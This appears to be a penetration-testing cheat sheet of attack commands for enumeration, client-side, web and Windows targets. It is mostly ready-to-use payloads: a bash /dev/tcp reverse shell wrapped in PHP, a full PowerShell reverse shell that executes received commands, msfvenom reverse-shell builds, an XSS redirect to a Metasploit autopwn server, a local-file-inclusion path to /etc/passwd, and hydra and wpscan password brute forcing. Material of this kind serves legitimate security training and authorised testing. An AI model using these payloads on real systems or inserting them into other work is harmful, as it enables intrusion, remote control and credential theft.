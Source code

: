 ```enum4linux -a <ip>```
	- `nmap --interactive` 
- SQL login with root and “” as password
	- If you can login to the mysql database with root and empty password- mysql -u root -p then you can execute commands that run as root: https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/ 

## CLIENT SIDE ATTACKS
- MS12-037: Metasploit browser autopwn2: 
	- Lets you run a server that hosts different attack payloads.
	- set `SRVHOST=<your IP>, SRVPORT=80` (remember to stop apache)
	- Embed the url of the server in a page vulnerable to XSS:  
	`<script> window.location.href=”your url”</script>`
	- You will get a reverse shell when the victim acesses the URL
- Java signed applet attack
- To brute force passwords use the wordlists under: `/use/share/wordlists`  
`hydra -l root -p pwfile.txt <ip> ssh`

## WEB ATTACKS
- Local file inclusion  
`<url>../../../../../../etc/passwd%00`
- Is the application being run as root? Can you read /etc/shadow? > Crack passwords found!
- Simple PHP reverse shell:
Sometimes php web applications allow php files to be uploaded or included in an RFI attack
Use this php shell:  
```<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR LISTENER PORT> 0>&1```
- Shellshock  
If cgi-bin exists, https://www.exploit-db.com/exploits/34900/ 
- Remote file inclusion. Access the following URLs:    
`<target-host>/<hosted file>`  
`<target-host>/<hosted file>?`   
(sometimes your file has to have an escape character behind it, so try different things- `?` is most common)
- Remember to save your hosted file as .txt so it doesn’t get executed on your own end (this will give you a reverse shell to yourself)
- If the application is running as root, can you make the application run your code as root? 
- Wordpress: Check if Wp-login exists
```wpscan -u <URL>```
```wpscan --url <URL> --wordlist <rockyou.txt full path> --username admin```
- Powershell Reverse Shell:
```powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('<YOUR IP>',<YOUR PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```

#MSFVENOM
- ASP  
`msfvenom -p windows/shell_reverse_tcp  LHOST=<Your IP> LPORT=<Your port> -f asp > shellBT.asp`
- PHP  
`msfvenom -p php/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your port> -f raw > shellBT.php`
- EXE  
`msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your port> -f exe > shell.exe`
- For a full list please refer to the following link:  
https://superuser-ltd.github.io/2017/msfvenom-payloads/

## LINUX MISC COMMANDS
- `<command> &`  
Makes the command run in the background

## WINDOWS MISC COMMANDS
- Unzip Files in PS:  
`Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory("<pathtofile.zip>", "<outpath>")
PsExec: can be used to run commands as other users`

## KALI LINUX SEARCHSPLOIT
Searching for exploits in Kali Linux: On the terminal, type:  
```searchsploit <exploit want to search for>```
```